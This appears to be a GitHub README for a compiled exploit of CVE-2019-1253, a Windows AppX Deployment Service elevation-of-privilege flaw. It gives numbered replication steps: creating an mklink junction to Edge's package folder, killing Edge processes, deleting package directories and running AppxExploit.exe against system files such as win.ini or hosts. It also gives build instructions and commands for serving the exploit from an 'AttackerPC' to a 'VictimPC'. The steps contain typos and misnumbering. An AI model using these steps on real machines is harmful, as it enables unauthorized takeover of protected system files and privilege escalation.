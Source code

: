 ## CVE2019-1253-Compiled
Windows AppX Deployment -  Windows Elevation of Privilege Vulnerability
```
The “wsappx” process is part of Windows 8 and 10, and you may see it running in the background and it’s related to the Windows Store and Microsoft’s new “Universal” app platform. if you see the wsappx process running in your Task Manager, expand it and you’ll see one or both of the two subservices running (depending on which version of Windows you’re using). These services handle installing, removing, and updating Store apps.

In other words, this process is used for installing, uninstalling, and updating Store apps. Windows automatically updates Store apps in the background, and many of the apps included with Windows.

Note:An attacker can exploit this issue to gain the elevated privileges on the system.
```
## Tested on 
![Screenshot](test.png?raw=true)

## How to Replicate this attack
So, Here is the Way ..!!
```
1. Check if exists directory ""C:\Users\{Environment.UserName}\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe"
If not, launch Edge for the first time to create that directory.
2. Check if there are any Microsoft Edge running processes. In that case, kill all the processes.
3. Create temporary directory in C:\ , with your choice name.
4. Above Created directory we will use as mountpoint so now Create the hardlink to the targetted file within this directory.
(mklink /J "C:\testapp" "C:\Users\JohnUser\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\Settings")
5. Launch Microsoft Edge, it will crash and AppxSvc and takes SYSTEM ownership of the directory created by you in C: directory , if it doen't happen so don't worry it's okay.
5. Delete the local user directory for the Microsof Edge package appX after visiting "C:\Users\{Environment.UserName}\AppData\Local\Packages\" inside it. Delete everything except "C:\Users\{Environment.UserName}\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\" this location inside the Package directory.
6. Try to removes permissions for current user from modify access to none, in my case i was not able to remove perm from the user so i lefted and proceed further to test the case.
7.Clear directory files from the mounted directory and try to re-create the hardlink to the targeted file inside this directory.
(it will say aleady exits , no worry move on)
8. git clone the Exploit and Check the permission of your target file which you are going to modify the permission.
(Target file may be choosen as "C:\WIndows\win.ini" or "C:\Windows\System32\drivers\etc\hosts" or you can choose many more systems file.)
9. Exploit it using AppxExploit.exe "C:\Windows\win.ini"
```
## Source Code of the Exploit can be found here

https://github.com/padovah4ck/CVE-2019-1253


## Screenshoot includes here
## Before
![Screenshot](whoami.png?raw=true)
![Screenshot](userinfo.png?raw=true)

## After 
![Screenshot](exploit.png?raw=true)
![Screenshot](winperm.png?raw=true)
![Screenshot](newperm.png?raw=true)

## Compile C# project from Visual Studio
Open your project to visual studio
```
Open Visual Studio --> Open Local Folder --> Select your Downloaded Folder --> Open CVE-2019-1253 --> AppExploit_Edge --> Select Folder --> Open
```
After opening your Project, just build it 
```
go to AppxExploit.csproject --> Double click to open --> Then at the top of the screen click on green icon to build
```
Now, Download and mimic exploitation.

## Transfer Exploit from AttackerPC to VictimPC
```python2.7
Python2.7:\>pyhton -m SimpleHTTPServer 90
```
```pyhton 3
Python3:\>python -m http.server
```

## How to create Hardlink, Softlink & junction
```
mklink Link Target
mklink /D Link Target
mklink /H Link Target
mklink /J Link Target
```
```
Use /D when you want to create a soft link pointing to a directory.
Use /H when you want to create a hard link pointing to a file:
Use /J to create a hard link pointing to a directory, also known as a directory junction:
```
## Technologies Affected

    Microsoft Windows 10 Version 1709 for ARM64-based Systems
    Microsoft Windows 10 Version 1803 for 32-bit Systems
    Microsoft Windows 10 Version 1803 for ARM64-based Systems
    Microsoft Windows 10 Version 1803 for x64-based Systems
    Microsoft Windows 10 Version 1809 for 32-bit Systems
    Microsoft Windows 10 Version 1809 for ARM64-based Systems
    Microsoft Windows 10 Version 1809 for x64-based Systems
    Microsoft Windows 10 Version 1903 for 32-bit Systems
    Microsoft Windows 10 Version 1903 for ARM64-based Systems
    Microsoft Windows 10 Version 1903 for x64-based Systems
    Microsoft Windows 10 version 1703 for 32-bit Systems
    Microsoft Windows 10 version 1703 for x64-based Systems
    Microsoft Windows 10 version 1709 for 32-bit Systems
    Microsoft Windows 10 version 1709 for x64-based Systems
    Microsoft Windows Server 1803
    Microsoft Windows Server 1903
    Microsoft Windows Server 2019


## References
https://github.com/padovah4ck/CVE-2019-1253

https://krbtgt.pw/dacl-permissions-overwrite-privilege-escalation-cve-2019-0841/

https://www.symantec.com/security-center/vulnerabilities/writeup/109913?om_rssid=sr-advisories

